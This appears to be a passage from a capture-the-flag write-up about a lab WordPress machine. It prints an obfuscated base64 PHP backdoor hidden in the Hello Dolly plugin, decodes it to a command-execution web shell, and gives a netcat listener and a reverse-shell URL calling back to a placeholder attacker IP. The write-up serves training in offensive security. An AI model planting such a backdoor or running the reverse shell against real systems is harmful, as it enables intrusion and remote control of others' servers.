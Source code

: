 
The backdoor contained obfuscated code:
```php
function hello_dolly() {	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

Decoding the Base64:
```bash
echo 'CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA' | base64 -d

# if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }                                                          
```

The octal values decode to:
- `\143` = c 
- `\155` = m
- `\x64` = d

it's `cmd` 

Testing the backdoor:
`http://www.smol.thm/wp-admin/index.php?cmd=id`

![cmd](images/cmd.png)

### 6. Revese shell

Setting up listener:
```bash
nc -lnvp 4444
```

Triggering reverse shell:
```url
http://www.smol.thm/wp-admin/index.php?cmd=busybox%20nc%20YOUR_IP%204444%20-e%20bash
```
